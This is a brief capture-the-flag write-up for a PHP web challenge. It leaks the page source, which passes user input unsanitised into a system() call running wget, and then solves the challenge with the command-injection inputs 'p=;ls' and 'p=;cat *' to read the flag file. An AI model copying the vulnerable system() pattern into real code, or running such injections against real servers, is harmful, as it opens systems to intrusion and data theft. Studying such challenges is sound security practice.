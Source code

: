 This challenge is similar with `random-web1` we leak the source of the page
with the `source` query parameter:

```
<?php

error_reporting(0);
(isset($_GET['source']) AND show_source(__FILE__) AND die()); 

session_start();
$sb = './sb/' . md5(session_id()); #the sandbox
mkdir($sb, 0777, True);
chdir($sb);
    

if(isset($_REQUEST['p'])){
    
    $p = substr($_REQUEST['p'],0,6);
    
    system("wget -qO - " . $p);

}



?>

<!-- /?source -->
```

With the payload `http://34.159.169.171:31255/?source`. We use `p=;ls`
to see what we have in our sandbox. And we see 2 files `flag.php` and
`index.php`. And then we inject our last trigger `p=;cat *` to leak
the flag:

```
<?php

//CTF{fc81554fa89fdbb42a1e05f69bcdf2b4f00b10df}

?><?php

error_reporting(0);
(isset($_GET['source']) AND show_source(__FILE__) AND die()); 

session_start();
$sb = './sb/' . md5(session_id()); #the sandbox
mkdir($sb, 0777, True);
chdir($sb);
	

if(isset($_REQUEST['p'])){
	
	$p = substr($_REQUEST['p'],0,6);
	
	system("wget -qO - " . $p);

}



?>

<!-- /?source -->
<!-- /?source -->
```

The flag was:

```
CTF{fc81554fa89fdbb42a1e05f69bcdf2b4f00b10df}
```
